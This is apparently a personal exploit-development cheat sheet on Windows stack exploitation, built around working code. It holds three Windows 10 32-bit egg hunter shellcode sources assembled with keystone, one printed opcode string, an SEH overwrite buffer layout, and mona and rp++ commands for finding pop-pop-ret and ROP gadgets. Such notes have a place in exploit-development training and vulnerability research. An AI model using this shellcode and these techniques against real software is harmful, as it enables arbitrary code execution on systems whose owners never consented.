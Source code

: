 # Windows Stack

### Egg Hunter

[https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/](https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/)

#### Windows 10 Egghunter \(w00tw00t, 32-Bit\)

```python
from keystone import *

CODE = (
" " 
" loop_inc_page: "
" or dx, 0x0fff ;" 
" loop_inc_one: "
" inc edx ;"
" loop_check: "
" push edx ;"
" mov eax, 0xfffffe3a ;" 
" neg eax; " 
" int 0x2e ;" 
" cmp al,05 ;" 
" pop edx ;" 
" loop_check_valid: "
" je loop_inc_page ;" 
" is_egg: "
" mov eax, 0x74303077 ;" 
" mov edi, edx ;" 
" scasd ;" 
" jnz loop_inc_one ;" 
" scasd ;" 
" jnz loop_inc_one ;" 
" matched: "
" jmp edi ;" 
)


ks = Ks(KS_ARCH_X86, KS_MODE_32)
encoding, count = ks.asm(CODE)
instructions = ""
for dec in encoding: 
 instructions += "\\x{0:02x}".format(int(dec)).rstrip("\n")
 
print("Opcodes = (\"" + instructions + "\")")
```

You might have to modify the syscall number \(above 0x1C6, in negated form\). Print from windbg with `u ntdll!NtAccessCheckAndAuditAlarm`. E.g. on Win 10 Pro it was 0x29 for me. Then calculated negated form \(here as example for 0x29\):

```text
>>> i = 0 - 0x29
>>> hex (i & ((1 << 32) - 1))
'0xffffffd7'
```

Mona can generate one aswell:

```text
0:004> .load pykd.pyd
0:004> !py mona egg -wow64 -winver 10
...
```

This one is kind of reliable as well \(32 bit process on 64 bit system\):

```python
from keystone import *

CODE = (
"mov    ebx,cs;"
"cmp    bl,0x23;"
"xor    edx,edx;"
"or     dx,0xfff;"
"xor    ebx,ebx;"
"inc    edx;"
"push   edx;"
"push   ebx;"
"push   ebx;"
"push   ebx;"
"push   0x29;"
"pop    eax;"
"mov    bl,0xc0;"
"call   DWORD PTR fs:[ebx];"
"add    esp,0xc;"
"pop    edx;"
"cmp    al,0x5;"
"je     0x7;"
"mov    eax,0x74303077;"
"mov    edi,edx;"
"scas   eax,DWORD PTR es:[edi];"
"jne    0xe;"
"scas   eax,DWORD PTR es:[edi];"
"jne    0xe;"
"jmp    edi;"
)


ks = Ks(KS_ARCH_X86, KS_MODE_32)
encoding, count = ks.asm(CODE)
instructions = ""
for dec in encoding: 
 instructions += "\\x{0:02x}".format(int(dec)).rstrip("\n")
 
print("Opcodes = (\"" + instructions + "\")")
```

When debugging, this one will hit breakpoints all the time. This is normal and does not mean it does not work \(see [https://www.corelan.be/index.php/2019/04/23/windows-10-egghunter/](https://www.corelan.be/index.php/2019/04/23/windows-10-egghunter/)\).

#### Windows 10 Egghunter \(w00tw00t, custom SEH handler, 32-Bit\)

```python
from keystone import *

CODE = (
" start: "
" jmp get_seh_address ;" 
" build_exception_record: "
" pop ecx ;" 
" mov eax, 0x74303077 ;" 
" push ecx ;" 
" push 0xffffffff ;" 
" xor ebx, ebx ;" 
" mov dword ptr fs:[ebx], esp ;" 
" sub ecx, 0x04 ;" 
" add ebx, 0x04 ;" 
" mov dword ptr fs:[ebx], ecx ;"
" is_egg: "
" push 0x02 ;" 
" pop ecx ;" 
" mov edi, ebx ;" 
" repe scasd ;" 
" jnz loop_inc_one ;" 
" jmp edi ;" 
" loop_inc_page: " 
" or bx, 0xfff ;" 
" loop_inc_one: "
" inc ebx ;" 
" jmp is_egg ;" 
" get_seh_address: "
" call build_exception_record ;" 
" push 0x0c ;" 
" pop ecx ;" 
" mov eax, [esp+ecx] ;" 
" mov cl, 0xb8 ;" 
" add dword ptr ds:[eax+ecx], 0x06 ;" 
" pop eax ;" 
" add esp, 0x10 ;" 
" push eax ;" 
" xor eax, eax ;" 
" ret ;" 
)

ks = Ks(KS_ARCH_X86, KS_MODE_32)
encoding, count = ks.asm(CODE)
instructions = ""
for dec in encoding: 
 instructions += "\\x{0:02x}".format(int(dec)).rstrip("\n")
 
print("Opcodes = (\"" + instructions + "\")")
```

```text
\xeb\x2a\x59\xb8\x77\x30\x30\x74\x51\x6a\xff\x31\xdb\x64\x89\x23\x83\xe9\x04\x83\xc3\x04\x64\x89\x0b\x6a\x02\x59\x89\xdf\xf3\xaf\x75\x07\xff\xe7\x66\x81\xcb\xff\x0f\x43\xeb\xed\xe8\xd1\xff\xff\xff\x6a\x0c\x59\x8b\x04\x0c\xb1\xb8\x83\x04\x08\x06\x58\x83\xc4\x10\x50\x31\xc0\xc3
```

### SEH Overwrite

Overwrite with POP POP RET followed by `EB <distance> 90 90` at the target to jump past the exception handler struct in memory e.g.:

```text
<padding><jmp(nseh)><poppopret(seh)><payload>
```

#### Find Pop Pop Ret

```text
!py mona seh
```

#### Resources

{% embed url="https://www.offensive-security.com/vulndev/quickzip-stack-bof-0day-a-box-of-chocolates/" %}

### ROP

Find Gadgets with rp++: [https://github.com/0vercl0k/rp](https://github.com/0vercl0k/rp)

```text
rp-win-x86.exe -f <file> -r 5 > rop.txt
```

